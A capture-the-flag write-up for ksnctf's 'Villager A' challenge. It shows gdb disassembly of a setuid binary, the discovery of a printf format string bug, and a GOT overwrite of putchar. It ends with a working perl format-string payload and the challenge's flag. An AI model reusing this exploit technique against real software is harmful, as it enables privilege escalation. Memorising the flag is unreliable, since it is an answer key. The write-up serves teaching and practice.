```yaml
---
layout: post
title: ksnctf Villager A write-up
---
```


![placeholder](../image/vil_a.png "Large example image")
[ksnctf](http://ksnctf.sweetduet.info) is one of the beginner level CTF websites. This article is the write-up for the question 4 [Villager A](http://ksnctf.sweetduet.info/problem/4), in which you need to exploit the *Format String Vulnerability* to capture the flag!  

## Write-up
### __Connect__  
Using given information, access to the server `ssh -p 10022 q4@ctfq.sweetduet.info`  
In the server, you can find  

```
[q4@localhost ~]$ ls -al
total 36
drwxr-xr-x.  2 root root 4096 May 22  2012 .
drwxr-xr-x. 17 root root 4096 Oct  6  2014 ..
-rw-r--r--.  1 root root   18 Dec  2  2011 .bash_logout
-rw-r--r--.  1 root root  176 Dec  2  2011 .bash_profile
-rw-r--r--.  1 root root  124 Dec  2  2011 .bashrc
-r--------.  2 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x.  1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--.  1 root root  151 Jun  1  2012 readme.txt
[q4@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q4@localhost ~]$ cat flag.txt
cat: flag.txt: Permission denied
[q4@localhost ~]$ ./q4 
What's your name?
sirius
Hi, sirius

Do you want the flag?
yes
Do you want the flag?
yes
Do you want the flag?
no
I see. Good bye.
```

### __Analyze__  
Since I don't have an access to read flag.txt, it seems that I need to somehow exploit q4 (SUID=root) to read the file. Let's disassemble main().  

{% highlight assembly %}
...
0x080485e4 <+48>:	call   0x8048484 <fgets@plt>
0x080485e9 <+53>:	mov    DWORD PTR [esp],0x80487b6
0x080485f0 <+60>:	call   0x80484b4 <printf@plt>		<==
0x080485f5 <+65>:	lea    eax,[esp+0x18]
0x080485f9 <+69>:	mov    DWORD PTR [esp],eax
0x080485fc <+72>:	call   0x80484b4 <printf@plt>		<== FMT_VULN
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>		<==
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
...
{% endhighlight %}
```
(gdb) c
Continuing.
What's your name?

Breakpoint 2, 0x080485e4 in main ()
(gdb) nexti
hello
0x080485e9 in main ()
(gdb) x/s 0x80487b6
0x80487b6 <__dso_handle+22>:	 "Hi, "
(gdb) x/s $esp+0x18
0xbf9524d8:	 "hello\n"
```
It seems that at \<main+48\>, `fgets()` is called to get a string from stdin; at \<main+72\>, `printf()` is called to output the string. But, it's kind of weird that `printf()` was called at \<main+60\> to output "Hi, ", and after that, `putchar()` was called to output "\n" (0xa). Why are they called separately, instead of calling just one like `printf("Hi, %s\n", input);` as you probably more familiar to write. Now, I'm getting suspicious that there is a format string vulnerability in this program. (I mean, it's a CTF program)  
What if I input some kind of *format string* at \<main+48\>?  

```bash
[q4@localhost ~]$ ./q4
What's your name?
sirius%x%x%x
Hi, sirius400d604408

Do you want the flag?
```

It's now clear that there is a format string vulnerability at __<main+72>__. So, let's think about how to exploit it to read flag.txt.  
  
```asm
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1		<==
0x08048618 <+100>:	jmp    0x8048681 <main+205>
...
0x08048681 <+205>:	mov    eax,DWORD PTR [esp+0x418]		<==
0x08048688 <+212>:	test   eax,eax
0x0804868a <+214>:	setne  al
0x0804868d <+217>:	test   al,al
0x0804868f <+219>:	jne    0x804861a <main+102>				<==
0x08048691 <+221>:	mov    DWORD PTR [esp+0x4],0x80487e6
0x08048699 <+229>:	mov    DWORD PTR [esp],0x80487e8
0x080486a0 <+236>:	call   0x80484a4 <fopen@plt>
0x080486a5 <+241>:	mov    DWORD PTR [esp+0x41c],eax
0x080486ac <+248>:	mov    eax,DWORD PTR [esp+0x41c]
0x080486b3 <+255>:	mov    DWORD PTR [esp+0x8],eax
0x080486b7 <+259>:	mov    DWORD PTR [esp+0x4],0x400
0x080486bf <+267>:	lea    eax,[esp+0x18]
0x080486c3 <+271>:	mov    DWORD PTR [esp],eax
0x080486c6 <+274>:	call   0x8048484 <fgets@plt>
0x080486cb <+279>:	lea    eax,[esp+0x18]
0x080486cf <+283>:	mov    DWORD PTR [esp],eax
0x080486d2 <+286>:	call   0x80484b4 <printf@plt>
...(return)
```
Realize that 0x1 is moved into [esp+0x418] right before the jump to \<main+205\>. Then, 0x1 is brought back to eax, followed by `jne` at \<main+219\> -- if the value of eax is not 0 (or ZF = 0), it jumps to \<main+102\> that is a loop asking "Do you want the flag?", as shown below.  


```asm
...
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
0x08048637 <+131>:	lea    eax,[esp+0x18]
0x0804863b <+135>:	mov    DWORD PTR [esp],eax
0x0804863e <+138>:	call   0x8048484 <fgets@plt>
0x08048643 <+143>:	test   eax,eax
0x08048645 <+145>:	sete   al
0x08048648 <+148>:	test   al,al
0x0804864a <+150>:	je     0x8048656 <main+162>
0x0804864c <+152>:	mov    eax,0x0
0x08048651 <+157>:	jmp    0x80486dc <main+296>
0x08048656 <+162>:	mov    DWORD PTR [esp+0x4],0x80487d1
0x0804865e <+170>:	lea    eax,[esp+0x18]
0x08048662 <+174>:	mov    DWORD PTR [esp],eax
0x08048665 <+177>:	call   0x80484e4 <strcmp@plt>
0x0804866a <+182>:	test   eax,eax
0x0804866c <+184>:	jne    0x8048681 <main+205>
0x0804866e <+186>:	mov    DWORD PTR [esp],0x80487d5
0x08048675 <+193>:	call   0x80484c4 <puts@plt>
0x0804867a <+198>:	mov    eax,0x0
0x0804867f <+203>:	jmp    0x80486dc <main+296>
...
```

On the other hand, if the jump was not taken, then it opens `flag.txt` and print it out (from \<main+212\> onwards)
One possibility to attack this program is by using format string attack to change the value of [esp+0x418] to 0 before `jne` at \<main+219\>, but it wouldn't work because `mov [esp+0x418], 0x1` happens after the string vulnerability. Moreover, ASLR (Address Space Layout Randomization) is enabled on this system, so guessing the stack address of [esp+0x418] is very hard.  
  

### __Exploitation__  
Remember that ASLR doesn't disable the randomization of memory address of code section. If I can somehow set `eip` to \<main+221\> (0x08048691), I should be able to read `flag.txt`.  
Right after the format string vulnerability, `putchar@plt` is called, using PLT. That means, if I modify the address referred at `putchar@plt` to \<main+221\>, I can modify `eip`!  
Let's examine.   

```asm
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
=> 0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
(gdb) stepi
0x08048474 in putchar@plt ()
(gdb) disassemble 
Dump of assembler code for function putchar@plt:
=> 0x08048474 <+0>:	jmp    DWORD PTR ds:0x80499e0
0x0804847a <+6>:	push   0x8
0x0804847f <+11>:	jmp    0x8048454
End of assembler dump.
```

So, it seems that if I change the value stored at __0x80499e0__ to be __0x08048691__ (\<main+219\>), I can read flag.txt.  
  

```bash
[q4@localhost ~]$ ./q4
What's your name?
AAAA%x.%x.%x.%x.%x.%x.%x.%x.
Hi, AAAA400.cfa440.8.14.64dfc4.41414141.252e7825.78252e78.

Do you want the flag?
```
As examining the format vulnerability, it seems that the input string is stored at __6th place__ from the top of the stack.  


### __GETTING THE FLAG__
Now, we got all the informatin needed.  

+ modify the value at __0x80499e0__ to __0x8048691__  
+ offset is 6  

Some calculation  

```python
>>> 0x8691 - 8
34441
>>>0x10804 - 0x8691
33139
```

Thus, the exploit code is  

```
[q4@localhost ~]$ perl -e 'print "\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6\$hn%33139x%7\$hn"'| ./q4
```

Then, the flag was: __FLAG\_nwW6eP503Q3QI0zw__
